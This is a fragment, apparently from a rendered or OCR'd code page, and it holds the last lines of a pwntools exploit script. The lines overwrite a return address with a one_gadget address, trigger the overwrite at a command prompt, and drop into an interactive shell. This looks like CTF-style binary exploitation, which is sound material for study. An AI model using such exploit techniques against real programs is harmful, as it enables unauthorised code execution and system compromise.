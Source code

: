 ```


edit(2,p64(ret_addr))
edit(1,p64(one_gadget_addr))
p.recvuntil('(CMD)&gt;&gt;&gt; ')
p.sendline('Q')
p.interactive()
```
